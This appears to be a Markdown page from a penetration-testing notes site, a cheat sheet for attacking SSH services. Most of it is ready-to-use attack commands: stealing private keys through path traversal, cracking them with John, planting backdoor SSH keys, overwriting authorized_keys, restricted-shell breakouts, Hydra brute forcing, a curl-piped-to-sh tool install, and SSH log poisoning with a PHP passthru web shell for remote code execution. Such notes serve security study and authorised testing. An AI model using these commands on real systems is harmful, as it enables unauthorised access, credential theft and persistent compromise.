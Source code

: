 ```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH | 22
## Methodology
- Do you have alid credentials?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log

<br/>
#### Restrictive Shell
If you have access to the <i>echo</i> command it is possible to use the built-in API to break out:
<br />
```echo os.system("/bin/bash")```
<br />
Break out of <b> RBash </b>:
``` ssh restricted@$IP -p 31678 -t "bash --noprofile"
OR 
ssh user@$IP "/bin/sh"```

<br />
#### SSH Access Denied - pty restricted
- If you can read the 'authorized_keys' file, you may see there is a 'no-pty' option
- We may be able to replace this file if we have an SSH key for the target user using <b>scp</b> with a public key. 
Copy the authorised key, remove the 'no-pty' option  and then place it back on the target, overwriting the blocking file

``` scp -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```

> This uses an id_rsa key we have previously obtained for a user called 'dude' and replaces authorized_keys with our modified file

Note: If you are not allowed to produce output on the target, use the -O flag

``` scp -O  -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```


<br />
#### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

<br />
#### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

<br />
#### Command Reference
<b> Search for files containing SSH Keys:</b>
```grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*```
```grep -ir "BEGIN DSA PRIVATE KEY" /*```
<b> SSH with id_rsa </b>
``` ssh -i id_rsa user@$IP ```
<b> Crack id_rsa with John (SSH2John) </b>
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt```
<b> SSH Keygen & Back Door (post exploitation) </b>
Generate a new SSH key pair with:
```ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name```
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory.
Connect with:
```ssh -i new-key-name user@$IP```

<br />
### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a>
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ```
```ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname```

<br />
#### SSH Log Poisoning
RCE via SSH Log Poisoning:
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> this verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed

<br />
#### SSH Brute Force
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

<br />
#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

<br />
###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>
